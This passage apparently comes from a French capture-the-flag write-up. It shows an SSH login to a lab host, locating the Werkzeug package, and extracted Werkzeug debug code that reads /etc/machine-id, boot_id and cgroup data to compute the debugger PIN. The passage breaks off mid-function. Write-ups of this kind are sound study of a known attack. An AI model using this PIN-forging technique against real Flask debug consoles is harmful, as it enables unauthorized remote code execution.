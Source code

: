 ```bash
$ ssh user@10.22.6.101 -p 17002
12dc5e96a37f:~$ find /usr/ -name werkzeug
/usr/local/lib/python3.10/site-packages/werkzeug
```

On parse le contenu du code de `/usr/local/lib/python3.10/site-packages/werkzeug/debug/__init__.py` pour ne garder que 
le contenu utile pour calculer le pin code:

```python
import getpass
import hashlib
import json
import os
import pkgutil
import re
import sys
import time
import typing as t
import uuid
from itertools import chain

_machine_id = None

def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
    global _machine_id
    if _machine_id is not None:
        return _machine_id
    def _generate() -> t.Optional[t.Union[str, bytes]]:
        linux = b""
        # machine-id is stable across boots, boot_id is not.
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue
            if value:
                linux += value
                break
        try:
            with open("/proc/self/cgroup", "rb") as f:
                linux += f.readline().strip().rpartition(b"/")[2]
        except OSError:
            pass
        if linux:
            return linux
    _machine_id = _generate()
    return _machine_id


def compute_pin_code(probably_public_bits, private_bits):
    rv = None
    num = None
    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode("utf-8")
        h.update(bit)
    h.update(b"cookiesalt")
    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
```